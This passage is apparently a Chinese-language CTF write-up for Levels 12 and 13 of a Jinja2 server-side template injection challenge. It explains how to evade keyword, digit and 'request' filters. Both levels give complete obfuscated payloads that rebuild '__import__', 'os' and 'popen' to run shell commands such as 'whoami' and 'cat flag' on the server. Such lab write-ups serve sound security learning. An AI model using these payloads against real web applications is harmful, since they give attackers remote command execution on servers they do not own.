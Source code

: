 ### Level 12 bypass combination2

这一关和上一关的区别在于 没有过滤`request`,但是过滤了数字.所以可以使用`request.args`绕过.

不过`request|attr("args")|attr("a")`并不能获取到通过 get 传递过来的`a参数`,所以这里得跟换为`request.args.get()`来获取 get 参数

如果还是从`().__class__`构造,那代码段就太冗长了.通过搜索,在羽师父的博客中学到了一条简洁的构造链.

`{{x.__init__.__globals__['__builtins__']}}`

![image-20210927145707004](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927145707004.png)

构造 payload,拿到 flag

> payload 原型: x.\_\_init\_\_.\_\_globals\_\_\['\_\_builtins\_\_']['eval'](<"__import__('os').popen('whoami').read()">)

```python
{%set a={}|select|string|list%}
{%set b=dict(pop=a)|join%}
{%set c=a|attr(b)(self|string|length)%}  # _
{%set d=(c,c,dict(getitem=a)|join,c,c)|join%}  # __getitem__
{%set e=dict(args=a)|join%}		# args
{%set f=dict(get=a)|join%}		# get
{%set g=dict(z=a)|join%}
{%set gg=dict(zz=a)|join%}
{%set ggg=dict(zzz=a)|join%}
{%set gggg=dict(zzzz=a)|join%}
{%set ggggg=dict(zzzzz=a)|join%}
{{x|attr(request|attr(e)|attr(f)(g))|attr(request|attr(e)|attr(f)(gg))|attr(d)(request|attr(e)|attr(f)(ggg))|attr(d)(request|attr(e)|attr(f)(gggg))(request|attr(e)|attr(f)(ggggg))}}
```

![image-20210927125427004](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927125427004.png)

### Level 13 bypass combination3

![image-20210926143742060](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926143742060.png)

这道题把`request`给 ban 了,过滤了更多关键字,不过还是可以用`Level 12`的思路

构造 payload,拿到 flag

> payload 原型:x.\_\_init\_\_.\_\_globals\_\_\['\_\_builtins\_\_'\]\['\_\_import\_\_'](‘os’).popen('cat flag').read()")

```python
{%set a={}|select|string|list%}
{%set ax={}|select|string|list%}
{%set aa=dict(ssss=a)|join%}
{%set aaa=dict(ssssss=a)|join%}
{%set aaaa=dict(ss=a)|join%}
{%set aaaaa=dict(sssss=a)|join%}
{%set b=dict(pop=a)|join%}   # pop
{%set c=a|attr(b)(aa|length*aaa|length)%}  # _
{%set cc=a|attr(b)(aaaa|length*aaaaa|length)%} # 空格
{%set d=(c,c,dict(get=a,item=a)|join,c,c)|join%}  # __getitem__
{%set dd=(c,c,dict(in=a,it=a)|join,c,c)|join%}   # __init__
{%set ddd=(c,c,dict(glob=a,als=a)|join,c,c)|join%}   # __globals__
{%set dddd=(c,c,dict(buil=a,tins=a)|join,c,c)|join%}   # __builtins__
{%set e=(c,c,dict(impo=a,rt=a)|join,c,c)|join%}   # __import__
{%set ee=(dict(o=a,s=a)|join)|join%}   # os
{%set eee=(dict(po=a,pen=a)|join)|join%}  # popen
{%set eeee=(dict(cat=a)|join,cc,dict(flag=a)|join)|join%}  # cat flag
{%set f=(dict(rea=a,d=a)|join)|join%}  # read
{{x|attr(dd)|attr(ddd)|attr(d)(dddd)|attr(d)(e)(ee)|attr(eee)(eeee)|attr(f)()}}
```
